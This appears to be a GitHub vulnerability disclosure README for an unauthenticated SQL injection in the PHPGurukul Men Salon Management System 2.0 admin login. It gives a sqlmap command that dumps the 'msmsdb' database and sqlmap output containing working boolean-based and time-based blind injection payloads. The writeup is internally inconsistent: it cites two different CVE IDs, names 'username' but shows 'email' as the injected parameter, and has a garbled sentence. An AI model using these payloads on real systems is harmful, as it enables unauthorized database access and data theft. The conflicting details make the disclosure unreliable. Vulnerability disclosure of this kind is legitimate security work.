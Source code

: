 # CVE-2024-30998-PHPGurukul-Men-Salon-Management-System-2.0-SQL-Injection-Vulnerability (Unauthenticated)
+ Exploit Author: efekaanakkar
# Vendor Homepage
+ https://phpgurukul.com/men-salon-management-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=14066
# Overview
+ PHPGurukul Men Salon Management System V2.0 is susceptible to a A notable security weakness stems from inadequate safeguarding of the 'Username' parameter within the admin/index.php file. This vulnerability has the potential to be exploited for injecting harmful SQL queries, resulting in unauthorized access and extraction of confidential data from the database.
# Vulnerability Details
+ CVE ID: CVE-2024-35511
+ Affected Version: PHPGurukul Men Salon Management System 2.0 
+ Parameter Name: email
# References
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-35511
# Description
+ Inadequate validation and sanitization of the 'username' parameter pave the way for attackers to construct SQL injection queries, circumventing authentication measures and obtaining unauthorized entry to the database.
# Proof of Concept (PoC) : 
+ `sqlmap -u "http://192.168.1.62/msms/admin/index.php" --method POST --data="username=admin&password=admin&login=Sign+In" -p"username" --random-agent --level 3 --risk 3 -D "msmsdb" --dump --tables`

```
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=test@test.com' RLIKE (SELECT (CASE WHEN (8847=8847) THEN 0x7465737440746573742e636f6d ELSE 0x28 END)) AND 'ZHEF'='ZHEF&sub=submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test@test.com' AND (SELECT 8859 FROM (SELECT(SLEEP(5)))DjVt) AND 'ZEmv'='ZEmv&sub=submit
---

```
+ current database: `msmsdb`
![image](https://github.com/efekaanakkar/CVEs/assets/130908672/7cf45037-3e64-4fff-8337-86292c34ddd2)
